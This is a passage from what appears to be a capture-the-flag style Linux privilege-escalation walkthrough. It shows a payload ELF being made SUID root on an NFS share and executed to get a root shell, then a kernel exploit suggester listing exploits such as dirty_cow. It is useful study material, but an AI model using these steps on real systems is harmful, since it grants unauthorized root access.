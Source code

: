 ```
No encoder specified, outputting raw payload
Payload size: 48 bytes
Final size of elf file: 132 bytes
Error: No such file or directory @ rb_sysopen - /tmp/nfs/shell.elf
```
Still using Kali's root user, make the file executable and set the SUID permission:
```
chmod +xs /tmp/nfs/shell.elf
```
Back on the Debian VM, as the low privileged user account, execute the file to gain a root shell:
```
/tmp/shell.elf
```
output:
```
user@debian:/tmp$ ./shell.elf 
bash-4.1#
```
Done 😄

# Task 20 : Kernel Exploits
Kernel exploits can leave the system in an unstable state, which is why you should only run them as a last resort.

Run the Linux Exploit Suggester 2 [les2](https://github.com/jondonas/linux-exploit-suggester-2) tool to identify potential kernel exploits on the current system:
```
perl /home/user/tools/kernel-exploits/linux-exploit-suggester-2/linux-exploit-suggester-2.pl
```
output:
```
 #############################                                                                                                                                                               
    Linux Exploit Suggester 2                                                                                                                                                                 
  #############################                                                                                                                                                               
                                                                                                                                                                                              
  Local Kernel: 2.6.32                                                                                                                                                                        
  Searching 72 exploits...                                                                                                                                                                    
                                                                                                                                                                                              
  Possible Exploits                                                                                                                                                                           
  [1] american-sign-language
      CVE-2010-4347
      Source: http://www.securityfocus.com/bid/45408
  [2] can_bcm
      CVE-2010-2959
      Source: http://www.exploit-db.com/exploits/14814
  [3] dirty_cow
      CVE-2016-5195
      Source: http://www.exploit-db.com/exploits/40616
  [4] exploit_x
      CVE-2018-14665
      Source: http://www.exploit-db.com/exploits/45697
  [5] half_nelson1
      Alt: econet       CVE-2010-3848
      Source: http://www.exploit-db.com/exploits/17787
  [6] half_nelson2
      Alt: econet       CVE-2010-3850
      Source: http://www.exploit-db.com/exploits/17787
  [7] half_nelson3
```